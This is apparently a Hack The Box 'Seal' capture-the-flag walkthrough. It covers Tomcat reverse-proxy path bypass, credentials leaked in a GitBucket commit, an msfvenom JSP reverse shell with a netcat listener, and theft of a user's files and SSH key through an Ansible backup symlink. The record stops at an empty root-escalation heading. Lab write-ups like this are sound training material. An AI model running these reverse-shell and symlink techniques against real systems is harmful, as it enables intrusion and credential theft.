







<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.250 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 14:49 CET
Nmap scan report for 10.10.10.250
Host is up (0.049s latency).
Not shown: 65006 closed tcp ports (reset), 526 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
8080/tcp open  http-proxy
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Sat, 08 Feb 2025 11:49:47 GMT
|     Set-Cookie: JSESSIONID=node0r02wx6avb9u811u6247plh7dy2.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Sat, 08 Feb 2025 11:49:46 GMT
|     Set-Cookie: JSESSIONID=node0kskklpglh5bm1k6cjrxjv8ytp0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 08 Feb 2025 11:49:46 GMT
|     Set-Cookie: JSESSIONID=node0372g2oaom1f6cnjgdcqkamu71.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=2/8%Time=67A76105%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Sat,\x2008\
SF:x20Feb\x202025\x2011:49:46\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node0ksk
SF:klpglh5bm1k6cjrxjv8ytp0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20T
SF:hu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/ht
SF:ml;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,107,"H
SF:TTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2008\x20Feb\x202025\x2011:49:46
SF:\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node0372g2oaom1f6cnjgdcqkamu71\.no
SF:de0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2
SF:000:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\
SF:x20GET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,AD,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/h
SF:tml;charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close
SF:\r\n\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Versio
SF:n</pre>")%r(FourOhFourRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nD
SF:ate:\x20Sat,\x2008\x20Feb\x202025\x2011:49:47\x20GMT\r\nSet-Cookie:\x20
SF:JSESSIONID=node0r02wx6avb9u811u6247plh7dy2\.node0;\x20Path=/;\x20HttpOn
SF:ly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nConte
SF:nt-Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r
SF:(Socks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nCon
SF:tent-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\n
SF:Connection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\
SF:x20Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x204
SF:00\x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;ch
SF:arset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r
SF:\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x2
SF:0CNTL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCo
SF:ntent-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x
SF:20400</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.39 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 443` -> https

- `Port 8080` -> http

<br />

# Https Enumeration: -> Port 443

<br />

When we list the https `website`, it is very `static` and doesn't has too much `funcionalities`:

<br />


<br />

## Fuzzing:

<br />

As the page doesn't have much we start `fuzzing` to see if we discover something `more`:

<br />

```bash
❯ wfuzz -c -t 60 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.250/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.250/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000016:   302        0 L      0 W        0 Ch        "images"                                                                                                               
000000001:   200        518 L    1140 W     19737 Ch    "# directory-list-2.3-medium.txt"                                                                                      
000000003:   200        518 L    1140 W     19737 Ch    "# Copyright 2007 James Fisher"                                                                                        
000000007:   200        518 L    1140 W     19737 Ch    "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000006:   200        518 L    1140 W     19737 Ch    "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000008:   200        518 L    1140 W     19737 Ch    "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000000005:   200        518 L    1140 W     19737 Ch    "# This work is licensed under the Creative Commons"                                                                   
000000002:   200        518 L    1140 W     19737 Ch    "#"                                                                                                                    
000000014:   200        518 L    1140 W     19737 Ch    "https://10.10.10.250/"                                                                                                
000000011:   200        518 L    1140 W     19737 Ch    "# Priority ordered case-sensitive list, where entries were found"                                                     
000000009:   200        518 L    1140 W     19737 Ch    "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000004:   200        518 L    1140 W     19737 Ch    "#"                                                                                                                    
000000013:   200        518 L    1140 W     19737 Ch    "#"                                                                                                                    
000000010:   200        518 L    1140 W     19737 Ch    "#"                                                                                                                    
000000012:   200        518 L    1140 W     19737 Ch    "# on at least 2 different hosts"                                                                                      
000000259:   302        0 L      0 W        0 Ch        "admin"                                                                                                                
000000444:   302        0 L      0 W        0 Ch        "icon"                                                                                                                 
000000550:   302        0 L      0 W        0 Ch        "css"                                                                                                                  
000000953:   302        0 L      0 W        0 Ch        "js"                                                                                                                   
000004889:   302        0 L      0 W        0 Ch        "manager"   
```

<br />

There are two `interesting` paths in the `wfuzz` results, let's take a look:

<br />

### /admin:

<br />

This path seems to be a `missconfiguration` but it `reveals` important `information`.

The website is using `Apache Tomcat` version `9.0.31`.

<br />


<br />

### /manager

<br />

As we know, this path is a `typical` path in `Apache Tomcat`, but when we try to load it -> `Forbidden 403`:

<br />


<br />

This may mean that a `nginx reverse proxy` is being employed behind the scenes to `prevent` users from `loading` certain `content` from the web.

And if we look at `Wappalyzer` we can see that this is the case:

<br />


<br />

## Reverse Proxy Bypass:

<br />

In the conference [Black Hat USA 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), there was talk that this `Reverse Proxy` restrictions could be `bypassed` breaking the `parser logic` to `trick` the `webserver`.

Some `ways` to do it are the following:

<br />


<br />

Let's try it with our `target`:

`URL Payload` -> https://10.10.10.250/manager;name=orange/html

<br />


<br />

Perfect!! We are `able` to `bypass` the `restriction`!

But when we try `default credentials` like tomcat:tomcat, tomcat:s3cret... They `don't work` , so we need to `continue enumerating`.

<br />

# Http Enumeration: -> Port 8080

<br />

When we load the `website` we see a `GitBucket` login:

<br />


<br />

Can `create` an `account`, so let's do it:

<br />


<br />

We `log` in and there are two `repositories`:

<br />



<br />

Looking `deep` into the `seal_market` one, we see a interesting `tomcat folder`:

<br />



<br />

Access this `folder` and see the typical `configuration files` of any `Apache Tomcat`:

<br />



<br />

Theres is nothing in those `files`, but clicking on `"latest commit 971f3aa3f0"`, we find something:

<br />



<br />

There are `tomcat credentials`, so we try `log` with them into the `/manager/html` login and yesss!!

<br />



<br />

Once into the `tomcat application`, we can deploy a `war` file.

So if we `create` a `Reverse Shell` with `msfvenom`, we can `deploy` it and `execute` to gain `access` to the `System`.

<br />

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f war -o reverse.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
Saved as: reverse.war
```

<br />

We `select` the file into the `deploy` section:

<br />



<br />

And finally `push` it. We can `see` the `file` in the `applications list`:

<br />



<br />

Now we only need to `set up` a `listener` and `execute` the `file` in the list `clicking` on `/reverse`:

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.250] 41498
whoami
tomcat
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

<br />

Finally do the `tty sanitization` and perfect! Intrusion is ready!

<br />

# Privilege Escalation: www-data -> luis

<br />

After a time enumerating the system, we `found` something in the `/opt` directory, a `backup folder`:

<br />

```bash
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

<br />

The `"archives"` folder has some `.gz` files:

<br />

```bash
tomcat@seal:/opt/backups$ cd archives/
tomcat@seal:/opt/backups/archives$ ls
backup-2025-02-09-12:10:31.gz  backup-2025-02-09-12:11:32.gz
```

<br />

On the other hand, `playbook` folder has a `"run.yml"` script with the following `code`:

<br />

```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

<br />

As we can see, it is a `task` that seems to be `running` in the `system` at time `intervals`.

What exactly this task is `doing` is `copying` all the `files` from the path `"/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files"` and `depositing` them as compressed `.gz` in the path `"/opt/backup/archives/"`. Finally, it proceed to `clean` the `/opt/backup/archives` directory.

<br />

## Script Exploitation:

<br />

To prove our `teory` that the `task` is being `executed` regularly in the `system` we run `pspy`:

<br />

```bash
2025/02/09 12:35:31 CMD: UID=0     PID=10573  | sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml 
```

<br /> 

### Ansible Playbook:

<br />

We were right, `root` is `running` the task as user `luis` using `Ansible-Playbook`:

<br />


<br />

To `exploit` this I need to `find` a `folder` in the `tomcat` directory where I can `write`. For example, the `/uploads` folder:

<br />

```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -l
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
```

<br />

Once this is done, we will proceed to create a `symbolic link` to the user luis home directory `/uploads`, so when the `task` is `executed` and all the contents of the `tomcat` folder are `compressed`, we can `gunzip` the `compressed` and `access` to `all` the files in `/home/luis`:

<br />

```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ln -s /home/luis .
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -l
total 0
lrwxrwxrwx 1 tomcat tomcat 10 Feb  9 15:54 luis -> /home/luis
```

<br />

Once created, we go to the `/opt/backup/archives` directory to `locate` the backup with the `content`, the only one with a `big size` and we copy it on `/tmp`:

<br />

```bash
tomcat@seal:/opt/backups/archives$ ls -l
total 114076
-rw-rw-r-- 1 luis luis    606061 Feb  9 16:00 backup-2025-02-09-16:00:32.gz
-rw-rw-r-- 1 luis luis    606061 Feb  9 16:01 backup-2025-02-09-16:01:32.gz
-rw-rw-r-- 1 luis luis 115598732 Feb  9 16:02 backup-2025-02-09-16:02:32.gz
tomcat@seal:/opt/backups/archives$ cp backup-2025-02-09-16:02:32.gz /tmp
```

<br />

When we apply a `gunzip` to the `compressed` we are left with a `tar file`:

<br />

```bash
tomcat@seal:/tmp$ gunzip backup-2025-02-09-16\:02\:32.gz
tomcat@seal:/tmp$ file backup-2025-02-09-16\:02\:32 
backup-2025-02-09-16:02:32: POSIX tar archive
```

<br />

So we `rename` it and `unzip` it `again` with `tar -xf`:

<br />

```bash
tomcat@seal:/tmp$ mv backup-2025-02-09-16\:02\:32 backup.tar
tomcat@seal:/tmp$ tar -xf backup.tar 
tomcat@seal:/tmp$ ls
backup.tar  dashboard  hsperfdata_tomcat  Privesc
```

<br />

Now we can `access` to the `luis` directory and read the `flag`:

<br />

```bash
tomcat@seal:/tmp$ cd dashboard/
tomcat@seal:/tmp/dashboard$ ls
bootstrap  css	images	index.html  scripts  uploads
tomcat@seal:/tmp/dashboard$ cd uploads/
tomcat@seal:/tmp/dashboard/uploads$ ls
luis
tomcat@seal:/tmp/dashboard/uploads$ cd luis/
tomcat@seal:/tmp/dashboard/uploads/luis$ ls
gitbucket.war  user.txt
tomcat@seal:/tmp/dashboard/uploads/luis$ cat user.txt
af3f361aa0efb30086c3df2c08xxxxxx
```

<br />

Looking into the user's `directory` we find a his `id_rsa`:

<br />

```bash
tomcat@seal:/tmp/dashboard/uploads/luis/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```

<br />

So we proceed to `connect` as `luis` to `localhost`:

<br />

```bash
tomcat@seal:/tmp/dashboard/uploads/luis/.ssh$ ssh -i id_rsa luis@localhost
Could not create directory '/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:YTRJC++A+0ww97kJGc5DWAsnI9iusyCE4Nt9fomhxdA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/.ssh/known_hosts).
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Feb 2025 04:16:36 PM UTC

  System load:           0.0
  Usage of /:            49.5% of 9.58GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             172
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.250
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b58c


22 updates can be applied immediately.
15 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Feb  9 16:09:50 2025 from 127.0.0.1
luis@seal:~$ whoami
luis
```

<br />

# Privilege Escalation: luis -> root 

<br />


